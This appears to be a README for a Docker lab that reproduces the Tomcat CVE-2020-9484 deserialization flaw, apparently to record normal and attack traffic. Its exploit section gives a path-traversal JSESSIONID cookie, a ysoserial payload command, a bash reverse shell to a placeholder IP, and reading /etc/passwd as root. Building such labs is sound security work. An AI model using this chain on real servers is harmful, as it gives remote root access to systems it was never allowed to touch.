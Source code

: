 # CVE-2020-9484 Tomcat Deserialization

## Description / Overview of Scenario

If a Apache Tomcat Server of certain versions is used configured in a specific way (described below)an attacker can trigger an remote code execution via deserialization with a crafted request.

## victim:

Docker container base from https://github.com/masahiro331/CVE-2020-9484.

uploading-migrated.war is custom webapplication to upload and show files.
groovy-2.3.9.jar is vulnerable webapplication implementing the following flaws.

Apache Tomcat versions 10.0.0-M1 to 10.0.0-M4, 9.0.0.M1 to 9.0.34, 8.5.0 to 8.5.54 and 7.0.0 to 7.0.103
Following things must be true for the vulnerability to be accessible:
* The server is configured to use the PersistenceManager with a FileStore; and
* The PersistenceManager is configured with sessionAttributeValueClassNameFilter="null" (the default unless a SecurityManager is used) or a sufficiently lax filter to allow the attacker provided object to be deserialized; and
* An attacker is able to control the contents and name of a file on the server; and
* The attacker knows the relative file path from the storage location used by FileStore to the file the attacker has control over;
    https://nvd.nist.gov/vuln/detail/CVE-2020-9484

Includes a uploading and downloading web application written with Spring boot (war file).

Steps to reproduce web application file:

* Clone example web application from 
    git clone https://github.com/spring-guides/gs-uploading-files.git
* Follow tutorial at: https://spring.io/guides/gs/uploading-files/

* Change needed things to create war file
    * Add:
      ```xml
        <packaging>war</packaging>
        <dependencies>
            ...
            <dependency>
               <groupId>org.springframework.boot</groupId>
               <artifactId>spring-boot-starter-tomcat</artifactId>
               <scope>provided</scope>
           </dependency>
           ...
        </dependencies>
        ```
        
   *  In Application.java add:
        ```javascript
        import org.springframework.boot.web.servlet.support.SpringBootServletInitializer;

        public class Application extends SpringBootServletInitializer{
            ...
            @Override
            protected SpringApplicationBuilder configure(SpringApplicationBuilder application) {
                 return application.sources(Application.class);
            }
        }
        ```


* Compile in /initial with ./mvnw clean package

* Convert application to be able to run unter Tomcat 10

    * Download migration tool: https://tomcat.apache.org/download-migration.cgi
    * and run in initial/target:
            
            java -jar jakartaee-migration-*-shaded.jar uploading.war uploading-migrated.war 

## normal
Upload and download files from victim.
Uploaded files are txt files filled with random strings, so sizes differ.

## exploit:

Uploading a crafted payload created with ysoserial.jar. 

It is possible to send crafted POST request with JSESSIONID set to a specific path.

The Victim then tries to load a SessionID which is not available.

Because of the PersistanceManager a Session is loaded from the specified path.

E.g: 
    
    Cookie : "JSESSIONID=../../../../upload-dir/executePayload.session"
This session is then deserialized and enables remote code execution as root user.
With ysoserial and the following command a malicious binary is created.

Create payload with reverse shell

    #!/usr/bin/bash
    echo "bash -i >& /dev/tcp/{ip}/4444 0>&1"
    
Run the payload uploaded through the website.

    java -jar ysoserial.jar Groovy1 'bash /tmp/payload.sh' > executePayload.session
    
Start listener and wait for connection from victim.

Send the following to test connection and then make use of root rights.
    
    whoami
    cat /etc/passwd

## cli:

    sudo python3.7 main.py a b c
    
    a: boolean (0/1) run automated normal behavior
    b: integer recording time
       1-n: recording time in seconds
        -1: flag to run auto stop of recording after end of exploit
    c: boolean (0/1) run automated exploit
